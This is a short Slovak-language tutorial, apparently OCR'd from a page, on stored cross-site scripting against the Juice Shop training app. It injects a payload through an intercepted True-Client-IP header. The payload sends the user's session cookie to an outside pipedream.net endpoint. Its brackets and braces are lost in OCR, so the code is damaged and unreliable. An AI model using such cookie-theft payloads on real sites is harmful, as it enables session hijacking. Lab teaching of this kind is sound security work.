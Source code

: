# Stored cross site scripting (XSS)

- Útok vykonáme na prostredí juice-shop (inštalácia link)
- Stored cross site scripting (XSS) je nazývaný stored kvôli tomu, že škodlivý kód je ukladaný v databáze aplikácii a je spustený každý krát keď užívateľ navštívy danú stránku. Ukážeme si krátku ukážku na Juice shop aplikácií.
- Pre tento typ útoku budeme potrebovať taktiež nástroj, ktorý bude zachytávať HTTP požiadavky na server, čo nám umožňuje vidieť a upraviť každú jednu požiadavku. Zaužívaným nástrojom pre tieto potreby je PortSwigger.
- V Juice shop aplikácií máme samostatnú obrazovku, ktorá zobrazuje poslednú IP adresu z ktorej sme boli prihlásený. Táto posledná IP adresa sa získava z databázy. Pri odhlasovaní z účtu vieme odchytiť požiadavku na odhlásenie
  pomocou PortSwiggera a upraviť odosielanú IP adresu, ktorá sa ukladá do databázy.
- Pri odchytení požiadavky pridáme do hlavičky requestu ešte jeden atribút True-Client-IP s hodnotou

      iframe src="javascript:const headers = new Headers();headers.append(‘Content-Type‘, ‘text/p-
            lain‘);const body = test: ‘event‘,;const options = method: ‘POST‘,headers,mode: ‘cors‘,body:
            document.cookie.split(‘ ‘)[4].split(‘=‘)[1],;fetch(‘https://eojph9o2kgja7k2.m.pipedream.net‘,
            options);" /iframe

  a požiadavku posunieme na server.
- Pri dalšom prihlasovaní sa pre obrazovku, kde zobrazujeme poslednú IP adresu prihlásenia úž nezobrazí IP adresa ale náš kód, ktorý odošle požidavku na náš server so session tokenom.